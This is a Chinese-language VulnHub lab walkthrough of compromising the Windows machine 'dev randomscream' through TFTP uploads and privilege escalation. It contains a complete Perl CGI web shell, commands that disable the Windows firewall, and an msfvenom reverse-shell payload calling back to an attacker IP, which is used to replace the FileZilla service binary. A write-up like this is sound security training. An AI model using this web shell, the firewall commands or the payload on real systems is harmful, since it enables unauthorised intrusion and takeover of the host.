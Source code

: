 +++
title = '0x076 dev randomscream'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



头一次打vulnhub的windows靶机，不太好配置啊：

# 端口扫描

![](/vulnhub_img/WEBRESOURCE87c4b538a137954d0474da79f0056849image.png)

![](/vulnhub_img/WEBRESOURCEa7bae8babbd95b78240e721eb612bd8bimage.png)

# 渗透

先看FTP：

![](/vulnhub_img/WEBRESOURCE9be74f55b58760de31ce413d42cca90aimage.png)

文件挺多的，但是都没读取权限：

![](/vulnhub_img/WEBRESOURCE9ecabaa1a20e5ca5f13be81ccd76b31fimage.png)

80端口也没扫出东西，这个root可能是80端口，然后看一下UPD的TFTP：

随便尝试了一下：

![](/vulnhub_img/WEBRESOURCE448020f7c8cf5c4aea20af6e81095a10image.png)

但是php反弹shell失败了，可能没有PHP的环境：

![](/vulnhub_img/WEBRESOURCE6c4c7f225f482364f45c161a3fa3ca44image.png)

这里查了一些资料，cgi程序：

![](/vulnhub_img/WEBRESOURCE00273facdd56f5b7ef383221571d8e06image.png)

![](/vulnhub_img/WEBRESOURCEff2c4b45f24113084178074905020a9cimage.png)

这些语言都可以实现，然后，poc如下：

```
use CGI;
use Cwd;
print CGI::header( -type => 'text/html' );
my $command = CGI::param('command');
my $pwd = CGI::param('pwd') || '';
my $password = CGI::param('password');
my $filename = CGI->script_name() ;

if ( $password ne 'yourpassword' ) {
    print "Please provide a valid password.\n";
    exit(0)
}

$pwd = $pwd eq '' ? `pwd` : $pwd;
my $home = Cwd::cwd();
chdir($pwd);

my $result='';

if ($command =~ /^cd\s*(.*)/) {
  my $dir = $1 or '';
  if ($dir eq '') {
    chdir($home);
  } else {
    chdir($dir);
  }
  $pwd = Cwd::cwd(); 
  $result = `ls -la`;
} else {
  $result = `$command`;
}

print <<EOF;
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html><head>
<meta content="text/html; charset=ISO-8859-1" http-equiv="content-type"><title>console</title>
<script>
window.onload = function(){
        document.getElementById("command").focus();
        }

</script>
<style type="text/css">
.wide1 {
border-width: thick;
width: 100%;
height: 600px;
}
.wide2 {
setFocus;
border-width: thick;
width: 100%;
}
</style>
</head><body>
<p>
Script: $filename PWD: $pwd <br/>
<textarea class="wide1" readonly="readonly" cols="1" rows="1" name="result">
$result
</textarea></p>
<form method="get" action="$filename" name="command">Command:&nbsp;
<input class="wide2" name="command" id="command"><br>
<input name="password" value="$password" type="hidden">
<input name="pwd" value="$pwd" type="hidden">
</form>
<br>
</body></html>
EOF

exit 0;
```

使用方式：

![](/vulnhub_img/WEBRESOURCEca9908bc2110e591604f0f1cc23f6231image.png)

查看防火墙状态：

```
netsh firewall show state
```

关闭防火墙：

```
net stop sharedaccess
sc config sharedaccess status= disable
```

![](/vulnhub_img/WEBRESOURCE1bb0dd1611e8e849a5f695a4531ddc42image.png)

![](/vulnhub_img/WEBRESOURCE81f72ac8287e468ba005f63de5c41bfaimage.png)

上传nc.exe，反弹shell：

![](/vulnhub_img/WEBRESOURCEd49c2ea128ddd72a9f7541ea30ef5887image.png)

![](/vulnhub_img/WEBRESOURCEbffe235cfd11a80ac519215e61870c1dimage.png)

# 提权

windows单机提权确实比较少：

tasklist /V查看进程信息：

![](/vulnhub_img/WEBRESOURCE097209197bac6dc42109f59046d31c9aimage.png)

net start查看服务列表：

![](/vulnhub_img/WEBRESOURCE2ac8d11ed1995f05c9d1615504ac9cd5image.png)

dir /s | findstr "FileZilla server.exe"

查询FileZilla server.exe文件：

![](/vulnhub_img/WEBRESOURCE8e0c1efebf6bb3de3b4ea3fef4715c9aimage.png)

生成木马，上传：

这种格式的木马可以直接用NC监听：

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.5.66 LPORT=8889 -f exe > reverse_sys_tcpshell.exe
```

![](/vulnhub_img/WEBRESOURCE8d1c7a2c8ab045436d83b1e9c92a423dimage.png)

记得改成binary

![](/vulnhub_img/WEBRESOURCEf2447ad16b2bb8da5925d4ea317e1b57image.png)

停止服务：

net stop "FileZilla Server FTP server"

![](/vulnhub_img/WEBRESOURCEf0ac952f59bed484ec18f4d2ce103eceimage.png)

覆盖服务：

![](/vulnhub_img/WEBRESOURCE9493d9cc2aec523dd6b54f9c3b6eadedimage.png)

开启监听，然后启动服务：

net start "FileZilla Server FTP server"

![](/vulnhub_img/WEBRESOURCE523cb1dcfb483fe1f9a7869787b6d80aimage.png)

![](/vulnhub_img/WEBRESOURCEd61176b54cab97e1686adcabf6f1f1f2image.png)

运行不了whoami，只能通过这种进程的方式来证明权限：

![](/vulnhub_img/WEBRESOURCEca6d440140c94f45f82614dd08cee018image.png)